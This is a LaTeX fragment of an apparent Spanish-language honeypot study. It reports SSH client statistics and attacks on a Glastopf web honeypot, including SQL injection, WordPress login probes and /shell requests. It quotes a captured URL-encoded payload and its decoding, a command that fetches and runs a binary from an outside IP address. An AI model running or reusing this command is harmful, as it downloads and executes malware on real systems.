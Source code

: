 \documentclass[journal]{IEEEtran}
\begin{document}
Otra información útil puede ser ver qué clientes {\tt ssh} han sido los más utilizados en los ataques, ya que esto puede ayudar a establecer clasificaciones de los diferentes atacantes según el tipo de máquina o sistema operativo que utilicen. Podemos ver también una clasificación de los 10 clientes más utilizados en la figura \ref{fig:ssh}:

\begin{figure}[H]
\centering
\includegraphics[width=0.5\textwidth]{img/ssh}
\caption{Lista de los 10 clientes {\tt ssh} más comunmente empleados.}
\label{fig:ssh}
\end{figure}


\section{Resultados obtenidos en el nodo Glastopf}

Vamos a hablar ahora del otro honeypot, Glastopf. Este ha recibido numerosos ataques del tipo inyección SQL, así como búsqueda de los ficheros {\tt robots.txt} o {\tt sitemap.xml}, ambos de ellos conocidos por contener información valiosa sobre la estructura de un sitio web. Además hemos encontrado varias pruebas hacia la ruta {\tt /wp-login.php}, debido a que el atacante ha debido creer que tenemos {\tt wordpress} funcionando en el servidor y ha tratado de localizar la dirección para acceder mediante {\tt login}.

Otro ataque muy común, ha consistido en intentar acceder a la carpeta {\tt /shell}, la cual no existe, lo que nos hace suponer que los ataques dirigidos al nodo Glastopf también son automatizados. El atacante escribe en dicha ubicación una cadena de caracteres muy larga, como la siguiente, la más común:

\begin{lstlisting}
/shell? %63 %64 %20 %2F %74 %6D %70 %3B %77 %67 %65 %74 %20 %68 %74 %74 %70 %3A %2F %2F %36 %31 %2E %31 %36 %30 %2E %32 %31 %33 %2E %32 %38 %3A %35 %34 %33 %32 %31 %2F %64 %6C %72 %2E %61 %72 %6D %3B %63 %68 %6D %6F %64 %20 %37 %37 %37 %20 %2A %3B %2E %2F %64 %6C %72 %2E %61 %72 %6D
\end{lstlisting}
la cual en realidad se traduce en la orden:
\lstset{basicstyle=\small\ttfamily, breaklines=true}
\begin{lstlisting}
cd /tmp && wget http://61.160.213.28:54321/dlr.arm; chmod 777 *; ./dlr.arm
\end{lstlisting}
\end{document}

